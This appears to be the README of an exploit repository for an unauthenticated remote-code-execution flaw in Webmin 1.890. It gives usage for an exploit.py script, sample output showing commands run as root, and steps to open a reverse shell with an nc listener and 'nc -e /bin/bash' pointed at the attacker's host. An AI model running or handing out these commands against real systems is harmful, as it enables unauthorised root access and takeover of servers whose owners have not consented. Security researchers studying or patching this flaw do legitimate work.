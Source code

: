 # WebMin-1.8.9.0-Unauthenticated-RCE

Webmin 1.890 is vulnerable to RCE if “user password change” option to be enabled.<br>
# USAGE:
```bash
$ python3 exploit.py [TARGET IP] [COMMAND]
#EXAMPLE
$ python3 exploit.py 10.10.10.1 whoami

```
```bash
#RESPONSE
<h1>Error - Perl execution failed</h1>
<p>Your password has expired, and a new one must be chosen.
uid=0(root) gid=0(root) groups=0(root)
</p>
```
<br>
<h4>before running script start listener for connection in your machine</h4>
<code>nc -nvlp [LPORT]</code> 
<br><h4>run script</h4>
<code>python3 exploit.py [RHOST] "nc -e /bin/bash [LHOST] [LPORT]" </code> 
